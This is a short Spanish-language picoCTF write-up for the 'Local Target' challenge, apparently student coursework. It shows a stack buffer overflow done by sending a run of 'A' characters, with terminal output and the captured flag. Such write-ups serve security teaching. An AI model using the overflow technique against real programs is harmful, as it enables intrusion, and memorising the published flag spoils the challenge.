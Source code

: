 # Local Target

# Objetivo
Smash the stack Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using: `nc saturn.picoctf.net 53496`

# Pistas
- Do anything you can to change `num`.
- When you change `num`, view the value as hexadecimal.

# Solución
- Descargamos el codigo y el programa
- Inspeccionamos el coodigo
- Podemos modificar la variable num sobrepasando el buffer y asi cambiando el valor de num
- Al ingresar puras "A" se puede obtener ya que el tipo de dato es chr
```
┌──(kali㉿kali)-[~/picoctf/tercer-parcial/binary/local]
└─$ ./local-target   
Enter a string: AAAAAAAAAAAAAAAAAAAAAAA

num is 64
Bye!
                                                                                  
┌──(kali㉿kali)-[~/picoctf/tercer-parcial/binary/local]
└─$ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAA

num is 0
Bye!
                                                                                  
┌──(kali㉿kali)-[~/picoctf/tercer-parcial/binary/local]
└─$ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
Cannot open file.
                                                                                  
┌──(kali㉿kali)-[~/picoctf/tercer-parcial/binary/local]
└─$ nc saturn.picoctf.net 53496                            
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
                                                                                  
┌──(kali㉿kali)-[~/picoctf/tercer-parcial/binary/local]
└─$ 

```

# Bandera
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}

## Notas adicionales
| comando | descripción |
| ------ | ------ |
| xx | xx |

## Referencias
- []()